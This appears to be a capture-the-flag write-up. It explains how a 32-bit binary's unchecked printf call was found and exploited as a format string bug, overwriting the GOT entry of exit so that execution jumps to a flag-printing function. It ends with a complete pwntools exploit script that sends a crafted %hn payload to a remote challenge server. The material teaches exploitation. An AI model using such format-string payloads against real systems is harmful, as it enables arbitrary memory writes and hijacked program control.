



We have [32-bit binary](32_new). Let's examine what this thing do using IDA Pro.

<p align="center">
  
</p>

The code is pretty simple. We input string, then put the entered string into ```format``` variable and in the end we print ```format```. How you can see ```printf``` function has only one argument. So, this is can be **format string attack**. Let's check it putting in the binary ```"%x.%x.%x.%x"``` string

<p align="center">
  
</p>

Okay, there is format string bug. It means that we can write into an arbitrary memory address. But what and where we should write? If we check the code one more time then we can see interesting function:

<p align="center">
  
</p>

This function simply prints the flag. So, the obvious idea to solve this challenge is to change execution flow to above function. Okay, if we can write into arbitrary place, then we should just replace GOT entry of ```exit``` function with the address of the function printing the flag.

[Exploit](exploit.py) that does exactly that, is placed below:

```python
from pwn import *


def main():
    pc = remote('163.172.176.29', 9035)

    fm = '%34501x%20$hn%33017x%21$hn'

    pc.recvline()
    pc.sendline(fm + (40 - len(fm)) * 'A' + '\x34\xa0\x04\x08' + '\x36\xa0\x04\x08')
    
    pc.interactive()


if __name__ == '__main__':
    main()
```